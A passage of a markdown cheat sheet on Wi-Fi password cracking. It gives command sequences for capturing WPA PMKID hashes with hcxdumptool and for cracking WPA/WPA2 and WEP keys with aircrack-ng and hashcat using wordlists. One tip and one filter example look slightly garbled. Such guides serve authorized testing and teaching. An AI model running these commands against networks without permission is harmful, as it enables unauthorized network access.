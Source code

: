 
## Capturing PMKID (WPA/WPA2) without deauth (modern technique)
Some APs expose PMKID via RSN IE during association; hash can be captured via a single probe using `hcxdumptool` / `hcxpcapngtool` (recommended), but aircrack suite can work with capture files. Example using `hcxdumptool` (not part of aircrack-ng but common):
```bash
# hcxdumptool capture (recommended modern method)
sudo hcxdumptool -i wlan0mon -o pmkid_capture.pcapng --enable_status=1
# extract PMKID to hashlist
hcxpcapngtool -o pmkid_hashes.txt pmkid_capture.pcapng
# crack with hashcat (mode 16800 / 22000 depending on format)
hashcat -m 16800 pmkid_hashes.txt rockyou.txt
```

---

## Cracking WPA/WPA2 PSK with aircrack-ng (wordlist)
After capturing handshake (`handshakes-01.cap` or similar):
```bash
# basic crack with wordlist
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <AP_BSSID> handshakes-01.cap
```
Useful options:
- `-w` — path to wordlist
- `-b` — BSSID to focus on (only try this AP)
- `-l <file>` — write found key to file
- `-e <ESSID>` — specify SSID (optional)

**Tip:** If aircrack-ng reports "No handshakes found" but you saw WPA handshake in airodump, ensure capture contains packets from the targeted AP and that handshake frames are present. Use `aircrack-ng -J`? (or other tools) or open in Wireshark to confirm.

---

## Cracking WEP keys
After capturing enough IVs (use aireplay-ng -3 or wait):
```bash
aircrack-ng -b <AP_BSSID> capture.cap
```
Aircrack-ng will attempt to recover WEP key once IV threshold reached.

---

## Converting/cutting capture files
- Use `tcpdump`/`editcap`/`mergecap`/`airdecap-ng` to manipulate .cap files.
- To extract WPA handshake packets for a particular BSSID/ESSID, use `aircrack-ng` or `tshark`/`wireshark`:
```bash
# extract packets for BSSID (example with tshark)
tshark -r fullcapture.cap -Y "wlan.sa || wlan.da" -w filtered.cap
```
- To convert pcapng to pcap:
```bash
editcap -F libpcap input.pcapng output.pcap
```

---